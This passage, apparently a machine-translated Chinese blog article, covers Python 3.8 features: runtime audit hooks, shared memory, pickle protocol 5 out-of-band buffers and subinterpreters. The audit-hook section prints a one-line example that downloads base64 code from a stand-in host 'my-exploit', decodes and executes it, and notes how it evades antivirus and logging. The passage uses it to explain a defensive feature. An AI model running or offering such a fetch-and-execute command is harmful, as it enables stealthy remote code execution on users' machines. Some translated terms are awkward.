 # 5) Python 运行时审计挂钩

Python 运行时严重依赖于 c。然而，在那里执行的代码不会以任何其他方式被记录或跟踪。它阻碍了不同的测试框架、日志记录框架和安全工具来监控并有选择地限制运行时采取的操作。

现在，运行时执行产生的事件可以被观察到，包括模块导入系统和任何自定义钩子。

新的 API 将如下所示

```
# Add an auditing hook
sys.addaudithook(hook: Callable[[str, tuple]])
# Raise an event with all auditing hooks
sys.audit(str, *args)
```

挂钩不能拆除或更换。对于 CPython，从 C 添加的钩子是全局的，而从 Python 添加的钩子只针对当前的解释器。全局钩子在解释器钩子之前执行。

一个特别有趣且最难以追踪的漏洞是这样写的:

```
python -c “import urllib.request, base64;
    exec(base64.b64decode(
        urllib.request.urlopen(‘http://my-exploit/py.b64')
    ).decode())”
```

这种代码不会被大多数反恶意软件程序扫描，因为它们依赖于通过下载或写入磁盘来读取可识别的代码，base64 足以绕过这一点。它还会经过保护，例如文件访问控制列表或权限(不发生文件访问)、批准的应用程序列表(假设 Python 已被批准用于其他用途)，以及自动审计或日志记录(假设 Python 被允许访问互联网或访问本地网络上的另一台机器以获取其有效负载)。

使用运行时事件挂钩，我们能够决定如何对任何特定事件做出反应。我们可以记录事件，也可以完全中止操作。

# **6)多重处理.共享内存**

有助于使用来自不同进程/解释程序的相同内存区域。基本上，它可以帮助我们减少序列化对象以在进程间传输它们所花费的时间。我们可以从不同的进程中使用共享内存，而不是将其序列化、发送到队列并反序列化。

# **7) Pickle 协议 5 带外数据缓冲**

pickle 协议 5 引入了对带外缓冲区的支持，其中数据可以根据通信层的判断与主 pickle 流分开传输。

前两个修正案对下一个修正案非常重要。不幸的是，Python3.8 中还没有包含它，因为一些合并旧代码的工作仍有待完成，但它可以改变我们在 Python 中处理并行代码的方法。

# **8)副口译员**

由于 GIL，Python 线程不是并行运行的，而进程是消耗资源的。启动一个进程需要 100-200 毫秒，而且它们使用大量 RAM。可以利用它的一个工具是副口译员。GIL 是每个解释器的，所以它不会影响其他解释器，启动它比启动一个进程要轻(虽然，还是比启动一个线程慢)。

出现的主要问题是在解释器之间传输数据，因为它们不会像线程那样共享它们的状态。所以我们需要在它们之间进行某种交流。Pickle、marshal 或 json 可用于序列化和反序列化对象，但它可能非常慢。解决方案之一是使用进程模块中的共享内存。

子进程似乎是长期存在的 GIL 问题的解决办法，但是，仍有一些工作要做。Python 在某些情况下仍然使用“运行时状态”而不是“解释器状态”。例如，垃圾收集器就是这样工作的。所以我们需要改变和许多其他内部模块一样，开始使用子解释器。

我希望该特性能在 Python3.9 中发布
